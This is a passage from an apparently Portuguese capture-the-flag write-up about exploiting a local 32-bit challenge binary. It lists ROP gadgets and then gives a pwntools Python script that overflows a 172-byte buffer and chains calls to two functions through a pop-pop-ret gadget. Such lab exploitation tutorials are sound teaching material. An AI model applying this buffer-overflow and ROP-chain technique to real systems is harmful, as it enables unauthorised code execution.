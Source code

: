 ```bash
0x08049022 : pop ebx ; ret
0x0804942f : pop ecx ; pop ebx ; pop ebp ; lea esp, [ecx - 4] ; ret
0x080494a2 : pop edi ; pop ebp ; ret
0x080494a1 : pop esi ; pop edi ; pop ebp ; ret
0x08049433 : popal ; cld ; ret
0x0804901a : sal byte ptr [edx + eax - 1], 0xd0 ; add esp, 8 ; pop ebx ; ret
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Isso acima são gadgets, e eu faço um grep por `pop` que é o que precisamos, posso ver que temos um `pop; pop; ret;` no endereço `0x080494a2`, então irei atualizar meu exploit assim:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

poppopret = pwn.p32(0x080494a2)  # gadgets try ROPgadget

f1 = pwn.p32(0x8049256)     # func1 address
f1arg1 = pwn.p32(0x9c)      # 1st argument of func1
f1arg2 = pwn.p32(300)       # 2nd argument of func1

f2 = pwn.p32(0x804929e)     # func2 address
f2arg1 = pwn.p32(0x0)       # 1st argument of func2
f2arg2 = pwn.p32(0xd)       # 2nd argument of func2
f2arg3 = pwn.p32(0xd)       # 3rd argument of func2

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + func1 address + poppopret + 1st arg f1 + 2nd arg f1
+ func2 address + JUNK + 1st arg f2 + 2nd arg f2 + 3rd arg f2
"""
payload = buff.encode() \
    + f1 \
    + poppopret \
    + f1arg1 \
    + f1arg2 \
    + f2 \
    + 'JUNK'.encode() \
    + f2arg1 \
    + f2arg2 \
    + f2arg3

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```
